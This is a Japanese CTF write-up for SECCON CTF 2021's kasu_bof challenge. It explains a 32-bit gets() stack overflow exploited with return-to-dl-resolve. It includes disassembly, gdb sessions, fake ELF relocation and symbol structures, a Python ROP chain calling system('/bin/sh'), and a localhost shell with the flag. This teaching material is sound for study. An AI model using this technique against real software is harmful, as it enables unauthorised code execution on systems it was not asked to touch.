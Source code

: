 ---
title: "SECCON CTF 2021 - kasu_bof Writeup"
date: 2022-11-11T11:29:55+09:00
draft: false
summary: "本記事はSECCON CTF 2021のPwn問題kasu_bofのWriteupです。"
author: "mc4nf"
---

** 問題
*** 問題文
#+begin_example
## Question
Do you understand return-to-dl-resolve attack on 32-bit?   
#+end_example

*** 配布ファイル
- ~main.c~
- ~chall~
      
**** ~main.c~
#+begin_src c
    #include <stdio.h>

    int main(void) {
      char buf[0x80];
      gets(buf);
      return 0;
    }
#+end_src

**** ~chall~
#+begin_example
mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ file chall
chall: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=cb260735eeb00c173f7f530e9fae9ee3704e6c6f, for GNU/Linux 3.2.0, not stripped

mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ checksec chall
[*] '/home/mc4nf/ctf/seccon2021/pwn/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
#+end_example
- x86
- SSP (Stack Smashing Protection) 無効
- Partial RELRO
      
** 方針
配布されたソースコード ( ~main.c~ )を見てみると、以下の特徴がある。
- ~char~ 型の配列 ~buf~ のサイズが ~0x80~ byte 
- ~gets~ を使用しているため、 ~\n~ (0x0a) が入力されるまで配列 ~buf~ に任意の文字を入力可能

  
このことから、配布されたプログラムには簡単なスタックバッファオーバフローの脆弱性があることがわかる。


また、問題文に ~return to dl resolve~ という攻撃方法を使用すれば良い旨のコメントがあるため、
スタックバッファオーバフローを利用して、 ~return to dl resolve~ を用いて ~shell~ を起動できるとよさそうである。


よって、この問題以下の方針で解いていく。
1. *return to dl resolve* を利用するため、 ~.plt~ セクションからライブラリ関数のアドレスが解決するまでの流れを調査
2. 1.を踏まえて、 *return to dl resolve* を利用し、 ~shell~ を起動

** 1. return to dl resolve (ret2dl resolve)
   return to dl resolveは、ライブラリ関数のアドレスを動的に解決する際に呼び出される関数である ~_dl_runtime_resolve~ を利用し、任意のライブラリ関数を呼び出す攻撃手法である。

   この攻撃の流れは以下のようになる。

   1. 任意の関数(ここでは ~shell~ )を呼ぶため、 ~_dl_runtime_resolve~ に読み込ませる偽の ~Elf32_Rel~ 構造体と ~Elf32_Sym~ 構造体のオブジェクト、および NULL終端文字列 ~"system"~ と ~"/bin/sh"~ を書き込み可能な領域に用意
   2. ~_dl_runtime_resolve~ が ~Elf32_Rel~ 構造体を特定するために引数に取る ~reloc_arg~ を、偽の ~Elf32_Rel~ を指すように指定
   3. ~.plt~ の先頭にジャンプし、偽の構造体を元に ~system~ のアドレスを解決し、 ~system("/bin/sh")~ を実行

   そこで、以下では、pltセクションからアドレス解決の流れを説明し、如何にして偽の構造体を作成すればよいかについて説明する。

*** ~main~ から ~gets~ が呼び出される全体の流れ
    問題のプログラムをディスアセンブルし、どのようにして ~gets~ が呼び出されているのか確認してみる。
    #+begin_src
08049180 <main>:
 8049180:       55                      push   ebp
 8049181:       89 e5                   mov    ebp,esp
 8049183:       81 ec 98 00 00 00       sub    esp,0x98
 8049189:       8d 85 7c ff ff ff       lea    eax,[ebp-0x84]
 804918f:       c7 45 fc 00 00 00 00    mov    DWORD PTR [ebp-0x4],0x0
 8049196:       89 04 24                mov    DWORD PTR [esp],eax
 8049199:       e8 a2 fe ff ff          call   8049040 <gets@plt>
 804919e:       31 c9                   xor    ecx,ecx
 80491a0:       89 85 78 ff ff ff       mov    DWORD PTR [ebp-0x88],eax
 80491a6:       89 c8                   mov    eax,ecx
 80491a8:       81 c4 98 00 00 00       add    esp,0x98
 80491ae:       5d                      pop    ebp
 80491af:       c3                      ret    
    #+end_src
    ディスアセンブルした ~main~ を見てみると、 ~0x8049199~ のアドレスにおいて、 ~gets@plt~ である ~0x8049040~ にジャンプしている。 ~gets@plt~ は、 ~.plt~ セクションに存在するため、 ~.plt~ セクションもディスアセンブルしてみる。
    
    #+begin_src
08049030 <.plt>:
 8049030:       ff 35 04 c0 04 08       push   DWORD PTR ds:0x804c004
 8049036:       ff 25 08 c0 04 08       jmp    DWORD PTR ds:0x804c008
 804903c:       00 00                   add    BYTE PTR [eax],al
        ...

08049040 <gets@plt>:
 8049040:       ff 25 0c c0 04 08       jmp    DWORD PTR ds:0x804c00c
 8049046:       68 00 00 00 00          push   0x0
 804904b:       e9 e0 ff ff ff          jmp    8049030 <.plt>

08049050 <__libc_start_main@plt>:
 8049050:       ff 25 10 c0 04 08       jmp    DWORD PTR ds:0x804c010
 8049056:       68 08 00 00 00          push   0x8
 804905b:       e9 d0 ff ff ff          jmp    8049030 <.plt>
    #+end_src
    先程呼ばれた ~gets@plt~ を確認してみると、 まず ~jmp    DWORD PTR ds:0x804c00c~ で ~0x804c00c~ 番地に格納されたアドレスへジャンプしている。この ~0x804c00c~ のアドレスは、GOTと呼ばれる領域にあり、最終的に解決された ~gets~ のアドレスが格納される。

    
    ここで、checksecの結果から、配布された実行ファイルは *Partial RELRO* であることがわかっている。 *Partial RELRO* は、共有ライブラリが遅延バインドされることを表しており、1回目のライブラリ関数の呼び出しの際に、共有ライブラリのアドレスを解決し、解決したアドレスをGOTへ格納する。
    このため、2回目以降のライブラリ関数の呼び出しは、GOTに格納された解決済のアドレスへジャンプすることで可能となる。

    
    しかし、問題を見てみると、 ~gets@plt~ は1回目の呼び出しであるため、まだGOTには解決されたアドレスは格納されていない。
    そこで、1回目のライブラリ関数の呼び出し時に、GOTには何が格納されているのか確認してみる。

    以下は、 ~gets@plt~ を呼び出す前のGOTの状態。
    #+begin_src
gef➤  got

GOT protection: Partial RelRO | GOT functions: 2
 
[0x804c00c] gets@GLIBC_2.0  →  0x8049046
[0x804c010] __libc_start_main@GLIBC_2.0  →  0xf7de1de0
    #+end_src
    GOTを確認すると、次の命令のアドレス ( ~0x8049046~ )がGOTに格納されていることがわかる。
    このため、引き続き ~0x8049046~ からの命令読んでいく。

    
    次の命令 ~push   0x0~ では、スタックに ~0x0~ を積み、その後 ~jmp    8049030 <.plt>~ で ~.plt~ セクションの先頭にジャンプしている。

    ~.plt~ の先頭の命令は、 ~push   DWORD PTR ds:0x804c004~ となっており、 ~0x804c004~ に格納されている値をスタックに積む。
    そして、次の命令 ~jmp    DWORD PTR ds:0x804c008~ で ~0x804c008~ に格納されているアドレスへジャンプする。

    ここで、 ~0x804c004~ および ~0x804c008~ 番地には何が格納されているのか調べてみる。    
    #+begin_src
gef➤  hexdump dword 0x804c004
0x0804c004│+0x0000   <_GLOBAL_OFFSET_TABLE_+0004> 0xf7ffd990   
0x0804c008│+0x0004   <_GLOBAL_OFFSET_TABLE_+0008> 0xf7fe7ac0   
    #+end_src
    すると、 スタックには ~0xf7ffd990~ が積まれ、最終的に ~0xf7fe7ac0~ 番地へジャンプしていることがわかる。    
    そして、 ~0xf7fe7ac0~ へジャンプ後、 ~gets~ のアドレスがGOTへ格納され、 ~gets~ が実行される。


    以上が ~main~ から ~gets~ が実行されるまでの流れであり、 ~return to dl resolve~ をするために必要となる ~.plt~ セクション以降の流れについて以降では詳しく見ていく。
    
*** ~.plt~ セクションからアドレス解決の流れ
    さて、 ~main~ から ~gets~ が呼び出される全体像が掴めたところで、最後にジャンプしたアドレス ~0xf7fe7ac0~ から先を追ってみる。
    ジャンプ先の  ~0xf7fe7ac0~ が ~_dl_runtime_resolve~ となっており、この関数により ~gets~ のアドレスが解決される。
     ~_dl_runtime_resolve~ は引数として ~link_map~ 構造体と、 後述する ~Elf32_Rel~ 構造体へのオフセットを示す ~reloc_arg~ という2つの値を取る。

    そこで、ここから先では、 ~_dl_runtime_resolve~ を呼び出す際に スタックに積まれた ~0xf7ffd990~ を ~_dl_runtime_resolve~ の第一引数である ~link_map~ 構造体のアドレス、 ~0x0~ を第二引数である ~reloc_arg~ として扱う。

   それでは、次に引数として渡された ~link_map~ 構造体がどのような役割を担っているのかを調査する。
    
    # ~.plt~ セクションから、 ~link_map~ 構造体を元にそれぞれのセクションのアドレスが特定され、それぞれのセクションに含まれる情報を参照することにより、ライブラリ関数のシンボルを解決する。
    
    # そこで、以下では、 ~gets@plt~ が呼び出されてから ~gets~ のシンボルが解決されるまでの流れを示す。


#     参考
#     #+begin_example    
#         .rel.plt                         .dynsym                                           .dynstr                                    
#             |                                |                                                 |
#             |                                |                                                 |
# reloc_arg---+   reloc_arg + .rel.plt         |                                                 |
#             |                                |                                                 |
#             +-->|-----------+----------|     |                                                 |
#                 | Elf32_Rel | r_offset |     |                                                 |
#                 |           | r_info   |-----+  (r_info>>8 + .dynsym)*sizeof(Elf32_Sym)        |
#                 |-----------+----------|     |                                                 |
#                                              |                                                 |
#                                              +->|-----------+---------------------------|      |
#                                                 | Elf32_Sym | st_name                   |------+   st_name + .dynstr
#                                                 |           | st_value                  |      |
#                                                 |           | st_size                   |      |
#                                                 |           | st_info st_other st_shndx |      |
#                                                 |-----------+---------------------------|      |
#                                                                                                |
#                                                                                                +-->|-----------+----------|
#                                                                                                    | symbol    |  'gets'  |
#                                                                                                    |-----------+----------|
#     #+end_example
    
**** ~link_map~ 構造体
   ~link_map~ 構造体は、ELFファイルと実際にマッピングされたアドレスの差分や各セクションのアドレス、再配置情報を保持する構造体であり、ライブラリ関数のシンボルを解決する際に参照される。
   実際の構造を知るために、定義を参照してみる。
   - https://elixir.bootlin.com/glibc/glibc-2.36/source/include/link.h#L95
     #+begin_src c
       struct link_map
       {
	 /* These first few members are part of the protocol with the debugger.
	    This is the same format used in SVR4.  */

	 ElfW(Addr) l_addr;		/* Difference between the address in the ELF
					  file and the addresses in memory.  */
	 char *l_name;		/* Absolute file name object was found in.  */
	 ElfW(Dyn) *l_ld;		/* Dynamic section of the shared object.  */
	 struct link_map *l_next, *l_prev; /* Chain of loaded objects.  */
	 ...

	 ElfW(Dyn) *l_info[DT_NUM + DT_THISPROCNUM + DT_VERSIONTAGNUM
		  + DT_EXTRANUM + DT_VALNUM + DT_ADDRNUM];
	 ...
       }
     #+end_src
     - ソースコード中の ~ElfW(hoge)~ のマクロは、 ~Elf32_hoge~ と展開される。
       - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/link.h#L28

   以下の例の場合、 ~link_map~ 構造体のアドレス ~0x804c004~ と ~gets~ の ~reloc_arg~ ~0x0~ をスタックにプッシュしている。
      #+begin_src
   gef➤  x/10i $eip
   => 0x8049030:   push   DWORD PTR ds:0x804c004
      0x8049036:   jmp    DWORD PTR ds:0x804c008
      0x804903c:   add    BYTE PTR [eax],al
      0x804903e:   add    BYTE PTR [eax],al
      0x8049040 <gets@plt>:        jmp    DWORD PTR ds:0x804c00c
      0x8049046 <gets@plt+6>:      push   0x0
      0x804904b <gets@plt+11>:     jmp    0x8049030
      0x8049050 <__libc_start_main@plt>:   jmp    DWORD PTR ds:0x804c010
      0x8049056 <__libc_start_main@plt+6>: push   0x8
      0x804905b <__libc_start_main@plt+11>:        jmp    0x8049030
      #+end_src
   

   以下のサイトを参考に、gdbで、ELFの構造体を読み込めるようにする。
   - https://inaz2.hatenablog.com/entry/2014/07/21/124857
     - gdbに ~link.h~ および ~elf.h~ のシンボル情報を読み込み
       #+begin_src 
	 gcc -g -fno-eliminate-unused-debug-types -x c -m32 -c /usr/include/link.h -o link.o
       #+end_src
       今回はx86のELFを対象としているため ~-m32~ オプションを指定

   特定した ~link_map~ 構造体のアドレス ~0xf7ffd990~ の中身を表示してみる。
   #+begin_src 
	 gef➤  add-symbol-file link.o 0
	 add symbol table from file "link.o" at
		 .text_addr = 0x0
	 Reading symbols from link.o...
	 gef➤  set $l = (struct link_map *) 0xf7ffd990
	 gef➤  print *$l
	 $1 = {
	   l_addr = 0x0,
	   l_name = 0xf7ffdc84 "",
	   l_ld = 0x804bf14,
	   l_next = 0xf7ffdc90,
	   l_prev = 0x0
	 }
   #+end_src

**** ~.dynamic~ セクション
  ~.dynamic~ セクションのアドレスは、 ~link_map~ 構造体の ~l_ld~ に格納されるため、
  ~.dynamic~ セクションのアドレスは ~0x804bf14~ であるとわかる。
   
  ~.dynamic~ セクションは、 ~ELF_Dyn~ 構造体のエントリを ~d_tag~ の種類の数保持しており、この中に ~.rel.plt~ や ~.dynsym~ , ~.dynstr~ などのアドレスが格納されている。
    - ELF32_Dyn 構造体
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L840
	#+begin_src c
	  typedef struct
	  {
	    Elf32_Sword d_tag;			/* Dynamic entry type */
	    union
	      {
		Elf32_Word d_val;			/* Integer value */
		Elf32_Addr d_ptr;			/* Address value */
	      } d_un;
	  } Elf32_Dyn;
	#+end_src
	 
    - d_tagの定義
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L862
	#+begin_src c
	  /* Legal values for d_tag (dynamic entry type).  */
	  ...
	  #define DT_STRTAB	5		/* Address of string table */
	  #define DT_SYMTAB	6		/* Address of symbol table */
	  ...
	  #define DT_REL	17		/* Address of Rel relocs */
	  ...
	  #define DT_JMPREL	23		/* Address of PLT relocs */
	  ...
	#+end_src
	 
    また、このとき ~.dynamic~ セクションは、 ~d_tag~ の順番に並んでいる訳ではないことに注意。
    - 以下の例では、 ~DT_STRTAB, DT_SYMTAB~ は8、9番目のエントリ、 ~DT_JMPREL, DT_REL~ は16、17番目のエントリに配置
      #+begin_src 
      0x0804bf14│+0x0000   <_DYNAMIC+0000> 0x00000001
      0x0804bf18│+0x0004   <_DYNAMIC+0004> 0x00000001
      ...
      0x0804bf54│+0x0040   <_DYNAMIC+0040> 0x00000005 // DT_STRTAB
      0x0804bf58│+0x0044   <_DYNAMIC+0044> 0x0804825c
      0x0804bf5c│+0x0048   <_DYNAMIC+0048> 0x00000006 // DT_SYMTAB
      0x0804bf60│+0x004c   <_DYNAMIC+004c> 0x0804820c
      ...
      0x0804bf94│+0x0080   <_DYNAMIC+0080> 0x00000017 // DT_JMPREL
      0x0804bf98│+0x0084   <_DYNAMIC+0084> 0x080482d8
      0x0804bf9c│+0x0088   <_DYNAMIC+0088> 0x00000011 // DT_REL
      0x0804bfa0│+0x008c   <_DYNAMIC+008c> 0x080482d0
      ...
      #+end_src
       
**** ~.rel.plt~ セクション
  ~rel.plt~ セクションは、 ~ELF32_Rel~ 構造体の配列となっている。
    - ELF32_Rel 構造体
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L634
	#+begin_src c
	  typedef struct
	  {
	    Elf32_Addr	r_offset;		/* Address */
	    Elf32_Word	r_info;			/* Relocation type and symbol index */
	  } Elf32_Rel;
      #+end_src

     ~.dynamic~ セクションから取得した ~.rel.plt~ のアドレス先をgdbでダンプしてみる。
      - ~reloc_arg~ が ~.rel.plt~ のインデックス
	#+begin_src 
	  gef➤  ser $reloc_arg = 0x0
	  gef➤  set $reloc = &((Elf32_Rel *)($l.l_ld[16].d_un.d_ptr))[$reloc_arg]
	  gef➤  print *$reloc
	  $10 = {
	      r_offset = 0x804c00c,
	      r_info = 0x107
	  }

	  gef➤  dd 0x080482d8
	  0x080482d8│+0x0000   0x0804c00c // getsのGOTエントリ (reloc_arg = 0x0)
	  0x080482dc│+0x0004   0x00000107
	  0x080482e0│+0x0008   0x0804c010 // __libc_start_mainのGOTエントリ (reloc_arg = 0x1)
	  0x080482e4│+0x000c   0x00000307
	  0x080482e8│+0x0010   0x00000000
	  0x080482ec│+0x0014   0x00000000
      #+end_src
	 
    ~r_info~ は、シンボルを解決するために使用される。
    ~r_info~ を 8 byte 右シフトすることにより、 ~dynsym~ のインデックスを取得することができる。
    - ~r_info~ の定義
      #+begin_src c
	/* How to extract and insert information held in the r_info field.  */

	#define ELF32_R_SYM(val)		((val) >> 8)
	#define ELF32_R_TYPE(val)		((val) & 0xff)
	#define ELF32_R_INFO(sym, type)	(((sym) << 8) + ((type) & 0xff))

	#define ELF64_R_SYM(i)			((i) >> 32)
	#define ELF64_R_TYPE(i)		((i) & 0xffffffff)
	#define ELF64_R_INFO(sym,type)		((((Elf64_Xword) (sym)) << 32) + (type))
      #+end_src
       
**** ~.dynsym~ セクション
    ~.dynsym~ セクションは、 ~Elf32_Sym~ 構造体の配列となっている。
      - ELF32_Sym 構造体
	- https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L519
	  #+begin_src c
	    typedef struct
	    {
	      Elf32_Word	st_name;		/* Symbol name (string tbl index) */
	      Elf32_Addr	st_value;		/* Symbol value */
	      Elf32_Word	st_size;		/* Symbol size */
	      unsigned char st_info;		/* Symbol type and binding */
	      unsigned char st_other;		/* Symbol visibility */
	      Elf32_Section st_shndx;		/* Section index */
	    } Elf32_Sym;
          #+end_src
	  - ~st_name~ は、実際にシンボルが置かれている ~.dynstr~ セクションのオフセット
    ~r_info~ からインデックスを計算し、 ~Elf32_Sym~ のアドレスを特定してみる。
    #+begin_src
      gef➤  set $symtab = (Elf32_Sym *)($l.l_ld[9].d_un.d_ptr)
      gef➤  set $sym = $symtab[$reloc.r_info>>8]
      gef➤  print $sym
      $7 = {
	st_name = 0x1a,
	st_value = 0x0,
	st_size = 0x0,
	st_info = 0x12,
	st_other = 0x0,
	st_shndx = 0x0
      }
    #+end_src
**** ~.dynstr~ セクション
    ~st_name~ のオフセットを ~.dynstr~ セクションのアドレスに足し合わせたアドレスが、シンボルを指すアドレスとなっている。
    - 以下の例では、 ~l_ld~ から ~.dynsym~ セクションのアドレスを取得し、その後 ~r_info~ から取得したインデックスを元に ~.dynstr~ セクションからシンボル名を解決 ( ~reloc_arg = 0~ の ~gets~ が解決)
    #+begin_src
      gef➤  set $strtab = (char*)($l.l_ld[8].d_un.d_ptr)
      gef➤  set $undef_name = $strtab + $sym.st_name
      gef➤  print $undef_name
      $8 = 0x8048276 "gets"
    #+end_src
    これにより、 ~link_map~ 構造体から ~gets~ のシンボルが解決されるまでの流れを把握することができた。

    そこで、次にこの流れを踏まえた上で、 ~system("/bin/sh")~ 呼び出すためのSolverを作成していく。


** 2. Solverの作成    
*** Solverの準備
    上記の流れを図にすると、それぞれのセクションと構造体とシンボルの関係は以下のようになる。
#+begin_example    
        .rel.plt                         .dynsym                                           .dynstr                                    
            |                                |                                                 |
            |                                |                                                 |
reloc_arg---+   reloc_arg + .rel.plt         |                                                 |
            |                                |                                                 |
            +-->|-----------+----------|     |                                                 |
                | Elf32_Rel | r_offset |     |                                                 |
                |           | r_info   |-----+  ((r_info>>8) + .dynsym)*sizeof(Elf32_Sym)      |
                |-----------+----------|     |                                                 |
                                             |                                                 |
                                             +->|-----------+---------------------------|      |
                                                | Elf32_Sym | st_name                   |------+   st_name + .dynstr
                                                |           | st_value                  |      |
                                                |           | st_size                   |      |
                                                |           | st_info st_other st_shndx |      |
                                                |-----------+---------------------------|      |
                                                                                               |
                                                                                               +-->|-----------+----------|
                                                                                                   | symbol    | 'system' |
                                                                                                   |-----------+----------|
    #+end_example
    ここで、 ~reloc_arg~ にはスタックバッファオーバフローを利用して任意の値を指定することが可能なため、 ~.rel.plt~ の値から偽の ~Elf32_Rel~ 構造体を配置したアドレスまでのオフセットを設定する。
    #+begin_src python
      reloc_arg = Elf32_Rel_addr - rel
    #+end_src
    
    また、偽の ~Elf32_Rel~ 構造体では、 ~r_info~ を 8 bitだけ右シフトした値を ~.dynsym~ を基準とした偽の ~Elf32_Sym~ 構造体へのインデックスとして使用する。
    このため、事前にインデックスを計算し、 ~Elf32_Rel~ 構造体に格納しておく。
    このとき、 ~r_info~ の下bitが ~0b111 (0x7)~ である必要があるため、最後に ~7~ を or することで下3bitに1を立てている。

    ~r_offset~ は、解決されたアドレスが格納されるアドレスであり、通常は ~.got~ の対応するエントリを指している。
    今回は特に関係ないものの、 ~gets~ の GOTエントリを指定しておく。    
    #+begin_src python
      r_offset = gets_got
      r_info   = ((Elf32_Sym_addr - dynsym)//0x10)<<8 | 7
    #+end_src
    
    ~Elf32_Sym~ 構造体の ~st_name~ は、 ~.dynstr~ の値から ~system~ のシンボルを配置したアドレスまでのオフセットを設定する。
    このため、事前にオフセットの値を計算し、 ~Elf32_Sym~ 構造体に格納しておく。

    ~st_info~ は、グローバル関数であることを指す ~0x12~ を設定しておく必要があるため、設定しておく。
    #+begin_src python
      st_name = system_symbol_addr - dynstr
      st_value = 0x0
      st_size = 0x0
      st_info = 0x12
      st_other = 0x0
      st_shndx = 0x0
    #+end_src

**** ~.bss~ 領域への作成した構造体やシンボルの格納
    ~.bss~ 領域には、以下のように作成した ~Elf32_Rel~ 構造体と ~Elf32_Sym~ 構造体、 ~system~ のシンボル、および ~/bin/sh~ の文字列が格納する。    
    #+begin_example
    |-----------+----------.bss-------------+---------|
    | Elf32_Rel | r_offset                  | 8 byte  |
    |           | r_info                    |         |
    |-----------+---------------------------+---------|
    |           |                           | 8 byte  |
    |           |                           | (align) |
    |-----------+---------------------------+---------|
    | Elf32_Sym | st_name                   | 16 byte |
    |           | st_value                  |         |
    |           | st_size                   |         |
    |           | st_info st_other st_shndx |         |
    |-----------+---------------------------+---------|
    |           |                           | 4byte   |
    |-----------+---------------------------+---------|
    | symbol    | 'system'                  | 4byte   |
    |-----------+---------------------------+---------|
    |           |                           | 4byte   |
    |-----------+---------------------------+---------|
    | argment   | '/bin/sh'                 | 4byte   |
    |-----------+---------------------------+---------|
    |           |                           |         |
    #+end_example
    このとき、 ~Elf32_Sym~ 構造体は、 ~dynsym~ セクションのアドレスから、 ~0x10~ byteの間隔で配置されなければならないため( ~Elf32_Sym~ 構造体のサイズが ~0x10~ byteのため)、
    必要なbyte数だけalignしている。

    Solverを書くときは、事前に ~.bss~ のどのアドレスがどの構造体やシンボルに対応するか計算しておき、ROPで ~gets~ の引数として指定しておき、ROPチェインが発火後に、それぞれの構造体やシンボルを書き込んでいく。
    #+begin_src python
      Elf32_Rel_addr = bss

      Elf32_Sym_addr = Elf32_Rel_addr + 0x10

      system_symbol_addr = Elf32_Sym_addr + 0x14

      sh_symbol_addr = system_symbol_addr + 0x1c
    #+end_src

**** ROPチェインの作成
     あとは、用意した偽の構造体やシンボルを ~.bss~ 領域内に格納できるように、複数回 ~gets~ を呼び出す必要がある。

     そこで、 それぞれ計算しておいた領域に構造体を引数とし、 ~gets@plt~ にジャンプするROPを組む。
     x86のROPは、参考のセキュリティコンテストチャレンジブックが参考になる。
     
     #+begin_src python
      # padding
      buf = b'A'*0x84                 # fill stack
      buf += p32(0xdeadbeaf)         # saved_ebp

      # gets(Elf32_Rel_addr)
      buf += p32(gets_plt)           # main return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(Elf32_Rel_addr)     # gets arg

      # gets(Elf32_Sym_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(Elf32_Sym_addr)     # gets arg

      # gets(system_symbol_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(system_symbol_addr) # gets arg

      # gets(sh_symbol_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return  addr
      buf += p32(sh_symbol_addr)     # gets arg
     #+end_src

     それぞれの構造体とシンボルの書き込みを行うROPを組んだ後、偽の構造体を元にアドレスを解決させるため、 ~.plt~ セクションの先頭にジャンプする。
     このとき、 ~system~ の引数として ~/bin/sh~ を取れるように、 ~/bin/sh~ が格納されたアドレスをスタックに積んでおく。
     #+begin_src python
      # system('/bin/sh')
      buf += p32(plt)                # pop ret return addr
      buf += p32(reloc_arg)          # reloc arg
      buf += p32(0xdeadbeef)         # padding
      buf += p32(sh_symbol_addr)     # system arg
     #+end_src

*** Solver
    https://github.com/Team-Enu/writeup/tree/main/seccon-ctf-2022/kasu_bof

**** 実行結果
     #+begin_example
mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ python solve.py 
[*] '/home/mc4nf/ctf/seccon2021/pwn/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to localhost on port 9001: Done
[*] Switching to interactive mode
$ ls
chall
flag-4f8e964cf95b989f6def1afdfd0e91b7.txt
$ cat flag*
SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}
     #+end_example

**** ~SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}~
     
**  参考
- 詳解セキュリティコンテスト
  - https://book.mynavi.jp/ec/products/detail/id=122750
  - 33.2.2 発展：関数シンボルの動的解決 pp.525
  
- ROP stager + Return-to-dl-resolveによるASLR+DEP回避 - ももいろテクノロジー   
  - https://inaz2.hatenablog.com/entry/2014/07/15/023406

- ret2dl resolve - slideshare
  - https://www.slideshare.net/sounakano/ret2dl-resolve

- セキュリティコンテストチャレンジブック
  - https://book.mynavi.jp/ec/products/detail/id=42421
  - 2.4 エクスプロイト - Retrun to PLT (ret2plt) pp.109
    - x86のROP

- リンカ・ローダ実践開発テクニック
  - https://shop.cqpub.co.jp/hanbai/books/38/38071.html
  - 2.9 シンボル・テーブル pp.54
    - Elf_Sym構造体について    
  - 2.10 再配置テーブル pp.57
    - Elf_Rel構造体について

- gdbに構造体定義を読み込ませて使う - ももいろテクノロジー
  - https://inaz2.hatenablog.com/entry/2014/07/21/124857


- ret2dl_resolve Sections 關係表
  - https://hackmd.io/@LJP/BkJmAqXEI
  - ELfのマクロについて


created 2022/11/11\\
updated 2022/11/25
